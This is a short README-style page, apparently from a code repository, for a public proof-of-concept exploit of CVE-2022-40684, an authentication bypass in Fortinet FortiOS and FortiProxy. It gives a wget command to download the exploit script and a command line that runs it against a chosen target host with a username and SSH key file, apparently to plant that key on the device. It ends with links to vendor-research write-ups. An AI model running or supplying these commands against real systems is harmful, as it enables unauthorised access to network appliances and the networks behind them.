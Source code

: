 ### Download exploit
```
wget https://raw.githubusercontent.com/horizon3ai/CVE-2022-40684/master/CVE-2022-40684.py
```

### Run
```
 python3 CVE-2022-40684.py -t <rhost> --username <user> --key-file ~/.ssh/<addKey>
CVE-2022-40684.py
```

### References
https://www.horizon3.ai/fortios-fortiproxy-and-fortiswitchmanager-authentication-bypass-technical-deep-dive-cve-2022-40684
https://www.horizon3.ai/fortinet-iocs-cve-2022-40684/

